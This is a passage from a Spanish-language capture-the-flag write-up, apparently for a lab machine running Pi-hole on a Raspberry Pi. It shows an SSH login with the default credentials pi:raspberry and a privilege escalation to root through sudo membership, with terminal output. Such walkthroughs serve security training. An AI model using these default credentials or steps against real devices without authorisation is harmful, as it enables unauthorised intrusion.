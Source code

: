Ahora si nos muestra contenido y algo curioso, un banner indicando que ***If you have an ongoing use for this website, please ask the owner of the Pi-hole in your network to have it whitelisted.***, traduciendo: ***Si tiene un uso continuo de este sitio web, solicite al propietario del Pi-hole en su red que lo incluya en la lista blanca.***. Aqui nos está indicando que se trata de la aplicación **Pi-hole** la cual se utiliza para el bloqueo de anuncios y rastreadores en Internet a nivel de red en Linux y que actúa como un sumidero de DNS, destinado para su uso en una red privada.

Si buscamos un poco sobre **Pi-hole**, encontraremos que se encuentra asociada a una **raspberry**, por lo que existen credenciales default de acceso por ssh, las cuales son `pi : raspberry`. Asi que vamos a tratar de acceder por ssh a ver si tenemos suerte.

```bash
❯ ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora vamos a tratar de escalar privilegios, por lo que vamos a enumrar un poco el sistema.

```bash
pi@raspberrypi:~/Desktop $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~/Desktop $
```

Nos encontramos dentro del grupo `sudo`, por lo que ya podemos ser el usuario **root**:

```bash
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root
root@raspberrypi:/home/pi/Desktop# 
```
